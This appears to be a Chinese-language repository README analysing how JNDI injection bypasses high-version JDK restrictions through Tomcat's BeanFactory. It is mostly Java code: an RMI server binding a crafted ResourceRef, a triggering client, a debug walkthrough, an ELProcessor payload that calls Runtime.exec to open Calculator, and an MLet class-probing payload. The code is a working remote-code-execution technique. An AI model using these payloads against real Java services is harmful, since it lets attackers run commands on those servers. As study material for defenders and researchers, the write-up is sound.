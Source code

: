 复现与调试：  
* 先起RMIServerELProcessor，然后运行RMIClient就可以触发命令执行。

* RMIServerMyClass并不重要，仅作为简单的演示，下文会提及。

* FastJsonHighVersionJDK是演示fastjson反序列化漏洞中，通过JdbcRowSetImpl链结合BeanFactory实现高版本jdk下的漏洞利用

---

高版本JDK中，对RMI和LDAP的trustURLCodebase做了限制，默认不允许远程加载ObjectFactory。  

RMI利用的JDK版本≤ JDK 6u132、7u122、8u113

LADP利用JDK版本≤ 6u211 、7u201、8u191  

---

目前两种绕过思路：
* 找到受害者本地classpath中的类作为恶意Reference Factory工厂类，并利用这个本地Factory类执行命令
* 利用LDAP直接返回一个恶意的序列化对象，JNDI注入依然会对他反序列化，由此完成利用

因此具体实现上，大概三种利用方式比较常见：
* 无法加载远程Factory工厂类，但不影响加载本地classpath中的Factory，条件是：工厂类必须实现了`javax.naming.sp.ObjectFactory`接口，并且至少存在一个`getObejctInstance`方法。比如：`org.apache.naming.factory.BeanFactory`（需要Tomcat的catalina.jar依赖，使用相对广泛）。以此调用`javax.el.ELProcessor#eval`或`groovy.lang.GroovyShell#evaluate`方法。
* 另外通过LDAP的javaSerializedData反序列化Gadget（不过这不在本文讨论范围内）

---

在调试过程中可以构建一个简单的本地class来增加对他的理解：
```java
package org.example;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import jdk.nashorn.internal.ir.Terminal;
import org.apache.naming.ResourceRef;

import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.security.PublicKey;

public class RMIServerMyClass {
    public static void lanuchRMIregister(Integer rmi_port) throws Exception {

        System.out.println("Creating RMI Registry, RMI Port:" + rmi_port);
        Registry registry = LocateRegistry.createRegistry(rmi_port);
        ResourceRef ref = new ResourceRef("org.example.RMIServerMyClass$Test", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "x=run"));
        ref.add(new StringRefAddr("x", "huhu"));

        ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
        registry.bind("Exploit", referenceWrapper);
        System.out.println(referenceWrapper.getReference());

    }

    public static void main(String[] args) throws Exception {
        lanuchRMIregister(1099);
    }

    public static class Test {
        public Test() {

        }

        public void run(String name) {
            System.out.println("My Name is " + name);
        }
    }
}
```
服务端起来以后，再运行如下客户端：
```java
package org.example;

import javax.naming.Context;
import javax.naming.InitialContext;
import java.util.Hashtable;

public class RMIClient {
    public static void main(String[] args) throws Exception{
        Hashtable<String,String> env = new Hashtable<>();
        Context context = new InitialContext(env);
        context.lookup("rmi://127.0.0.1:1099/Exploit");
    }
}
```

----

进入`BeanFactory#getObjectInstance`以后，会对类进行加载，并将obj转为Reference：
```java
public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws NamingException {
    if (obj instanceof ResourceRef) {
        try {
            Reference ref = (Reference)obj;
            String beanClassName = ref.getClassName();  // 获取类名
            Class<?> beanClass = null;
            ClassLoader tcl = Thread.currentThread().getContextClassLoader();
            if (tcl != null) {
                try {
                    beanClass = tcl.loadClass(beanClassName);  // 类加载
                } catch (ClassNotFoundException var26) {
                }
            } else {
                try {
                    beanClass = Class.forName(beanClassName);
                } catch (ClassNotFoundException var25) {
                    var25.printStackTrace();
                }
            }
```
此时的obj如下：
```java
ResourceRef[className=org.example.RMIServerMyClass$Test,factoryClassLocation=null,factoryClassName=org.apache.naming.factory.BeanFactory,{type=scope,content=},{type=auth,content=},{type=singleton,content=true},{type=forceString,content=x=run},{type=x,content=huhu}]
```
也就是加载了org.example.RMIServerMyClass$Test。

然后对Test进行实例化，并获取ref的forceString属性：
```java
Object bean = beanClass.getConstructor().newInstance();
RefAddr ra = ref.get("forceString");
```
此时，ra的值为：
```java
Type: forceString
Content: x=run
```
接着，获取Content值，通过字符串分割的形式拿到了run
```java
Map<String, Method> forced = new HashMap();
String value;
String propName;
int i;
if (ra != null) {
    value = (String)ra.getContent();  // value: "x=run"
    Class<?>[] paramTypes = new Class[]{String.class};  // 限制了方法必须是接受一个String类型的参数
    String[] var18 = value.split(",");  // 这意味着value可以是多个键值对的组合，此时因为只有一组键值对，所以var18: ["x=run"]
    i = var18.length;  // i: 1

    for(int var20 = 0; var20 < i; ++var20) { // 遍历var18
        String param = var18[var20];
        param = param.trim();
        int index = param.indexOf(61);  // 注意，这里用的是indexOf(int ch)，所以其实是在找“=”的索引
        if (index >= 0) {
            propName = param.substring(index + 1).trim(); // 将run提出来，赋给propName
            param = param.substring(0, index).trim();
        } else {
            propName = "set" + param.substring(0, 1).toUpperCase(Locale.ENGLISH) + param.substring(1);
        }
```

然后getMethod，将``x=>RMIServerMyClass$Test#eval()``放入forced：

```java
try {
    forced.put(param, beanClass.getMethod(propName, paramTypes));
} catch (SecurityException | NoSuchMethodException var24) {
    throw new NamingException("Forced String setter " + propName + " not found for property " + param);
}
```

然后获取content，也就是即将执行的方法的参数值，然后从forced中取出run方法，通过反射执行：
```java
// ra: Type: x, Content: huhu
// 因此，value: huhu
value = (String)ra.getContent();  
Object[] valueArray = new Object[1];
Method method = (Method)forced.get(propName);
if (method != null) {
    valueArray[0] = value;

    try { 
        // 就是在执行：RMIServerMyClass$Test#run.invoke(bean,new String[]{"huhu"});
        method.invoke(bean, valueArray);
```
根据上面调试过程，我们可以总结通过BeanFactory执行任意方法的类的几个限制条件：
* 这个类必须有一个无参构造方法
* 这个类必须能够被BeanFactory访问到，如果是内部类，则必须被public修饰
* 我们要执行的方法必须是只接受一个String类型的方法，而且该方法必须被public修饰

刚好，`javax.el.ELProcessor`符合条件：
```java
public ELProcessor() {
    this.context = this.manager.getELContext();
    this.factory = ELManager.getExpressionFactory();
}

public Object eval(String expression) {
    return this.getValue(expression, Object.class);
}
```
同样，`groovy.lang.GroovyShell`也是如此：
```java
public GroovyShell() {
    this((ClassLoader)null, (Binding)(new Binding()));
}
        
public Object evaluate(String scriptText) throws CompilationFailedException {
    return this.evaluate(scriptText, this.generateScriptName(), "/groovy/shell");
}
```

因此在RMIServer端构造的代码类似：
```java
// 完整代码见于：RMIServerELProcessor
ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
ref.add(new StringRefAddr("forceString", "x=eval"));
ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"java.lang.Runtime.getRuntime().exec('open /System/Applications/Calculator.app')\")"));
```
本质上是在执行如下代码：
```java
new ELProcessor().eval("Runtime.getRuntime().exec(\"open /System/Applications/Calculator.app\")");
```

我们也可以按照这种思路继续寻找可以利用的class，浅蓝师傅提出了MLet可以用来进行class探测，也是非常有趣的。
代码如下：
```java
ResourceRef ref = new ResourceRef("javax.management.loading.MLet", null, "", "",
            true, "org.apache.naming.factory.BeanFactory", null);
ref.add(new StringRefAddr("forceString", "a=loadClass,b=addURL,c=loadClass"));
ref.add(new StringRefAddr("a", "javax.el.ELProcessor"));
ref.add(new StringRefAddr("b", "http://127.0.0.1:2333/"));
ref.add(new StringRefAddr("c", "Blue"));
```

# 参考文献
* [如何绕过高版本JDK的限制进行JNDI注入利用 – KINGX](https://kingx.me/Restrictions-and-Bypass-of-JNDI-Manipulations-RCE.html#/)
* [探索高版本 JDK 下 JNDI 漏洞的利用方法](https://tttang.com/archive/1405/)  
* [JNDI 注入利用 Bypass 高版本 JDK 限制](https://wjlshare.com/archives/1661/)